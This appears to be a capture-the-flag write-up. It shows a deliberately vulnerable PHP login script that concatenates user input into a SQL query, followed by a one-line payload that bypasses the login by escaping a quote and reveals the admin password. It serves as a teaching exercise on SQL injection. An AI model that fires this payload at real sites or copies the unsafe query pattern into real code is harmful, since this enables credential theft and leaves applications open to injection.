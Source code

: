 # Challenge

```php 
#GOAL: get password from admin;
error_reporting(0);
require 'db.inc.php';

function clean($str){
    if(get_magic_quotes_gpc()){
        $str=stripslashes($str);
    }
    return htmlentities($str, ENT_QUOTES);
}

$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
$result=mysql_query($query);
if(!$result || mysql_num_rows($result) < 1){
    die('Invalid password!');
}

$row = mysql_fetch_assoc($result);

echo "Hello ".$row['name']."</br>";
echo "Your password is:".$row['pass']."</br>";
```



# solution

payload

`?username=admin\&password=%20or%201%23`

# Refference 

+ php4fun第一题

